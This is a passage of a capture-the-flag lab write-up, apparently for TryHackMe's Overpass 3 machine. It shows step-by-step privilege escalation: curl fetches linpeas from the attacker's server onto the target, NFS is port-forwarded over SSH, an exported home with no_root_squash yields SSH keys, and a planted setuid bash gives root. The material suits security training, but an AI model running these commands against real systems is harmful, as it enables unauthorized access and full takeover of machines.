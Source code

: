 - Now we can just connect this way `ssh -i private paradox@10.10.4.129`
- Let's get [linpeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) on the machine to enumerate our way to root.
- We get linpeas in our machine `wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas_linux_amd64`
- We launch python http server `python3 -m http.server 80`
- We get it in our target using curl `curl http://10.13.22.56/linpeas_linux_amd64 --output linpeas`
- We make it executable `chmod +x linpeas`
- we launch it `./linpeas`
- There is a recent CVE `cve-2021-4034`
- But there is also this that seems interesting as linpeas highlight as a 95% PE vector
```
╔══════════╣ Analyzing NFS Exports Files (limit 70)
-rw-r--r--. 1 root root 54 Nov 18  2020 /etc/exports                                                                                                                                                           
/home/james *(rw,fsid=0,sync,no_root_squash,insecure)
```
- Let's have a look at [this documentation from hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe)
- We are not able to mount the share so we need to check the how is nfs running:
```
[paradox@ip-10-10-4-129 ~]$ rpcinfo -p | grep nfs
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100227    3   tcp   2049  nfs_acl
```
- we could try to port forward `ssh paradox@10.10.4.129 -i private -L 2049:localhost:2049` and then mount the share
```
┌──(root💀kali)-[~/Documents/tryhackme/overpass3]
└─# mkdir nfs                                                                                                                                                                                              1 ⨯
                                                                                                                                                                                                               
┌──(root💀kali)-[~/Documents/tryhackme/overpass3]
└─# mount -v -t nfs localhost:/ nfs
mount.nfs: timeout set for Wed Mar 30 19:29:51 2022
mount.nfs: trying text-based options 'vers=4.2,addr=::1,clientaddr=::1'
```
- We now have access to the user flag and we also have the .ssh folder of james so we can use it to login as james 
```
┌──(root💀kali)-[~/…/tryhackme/overpass3/nfs/.ssh]
└─# ssh -i id_rsa james@10.10.4.129 
```
- It works
- Let's try to go further with the nfs misconfiguration
- For our attacking machine we run
```
cp /bin/bash nfs
chmod +s bash
```
- From our shell as jams we can now run
```
./bash -p
/home/james/bash: /lib64/libtinfo.so.6: no version information available (required by /home/james/bash)
/home/james/bash: /lib64/libc.so.6: version `GLIBC_2.33' not found (required by /home/james/bash)
```
- So we get this error we probably need another bash binary let's try with the one from the target machine.
- We copy it using scp to our attacking machine `scp -i .ssh/id_rsa james@10.10.4.129:/bin/bash .`
- Let's redo our chomd +s `chmod +s bash`
- We just need to `./bash -p` and it works!
```
```